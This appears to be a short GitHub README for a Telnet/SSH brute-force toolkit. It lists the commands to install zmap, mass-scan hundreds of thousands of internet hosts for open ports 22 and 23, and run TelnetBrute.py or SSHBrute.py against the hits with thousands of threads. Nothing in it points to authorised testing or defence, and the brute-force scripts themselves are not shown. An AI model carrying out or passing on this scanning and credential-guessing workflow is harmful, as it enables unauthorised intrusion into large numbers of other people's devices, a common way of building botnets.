 [VPS CentOS 6.9/6.8] (Recomendado)

- Install zmap

1- sh zmap_auto_install.sh

- Scan Telnet/Ssh Ips

1- ulimit -n 999999

2- zmap -p23 -o mfutelnet.txt -N 250000    ---OR---    zmap -p22 -o mfussh.txt -N 250000

   1,5-(optional)  zmap -p23 -o mfutelnet.txt -w telnet.lst   ---OR---   zmap -p22 -o mfussh.txt -w ssh.lst

- Bruteforce 

2- ulimit -n 999999

3- python TelnetBrute.py mfutelnet.txt 15000 telnettest.txt    ---OR---    python SSHBrute.py mfussh.txt 15000 sshtest.txt 




<img src="https://raw.githubusercontent.com/XeljomudoX/TelnetBrute.py/master/lul.png">



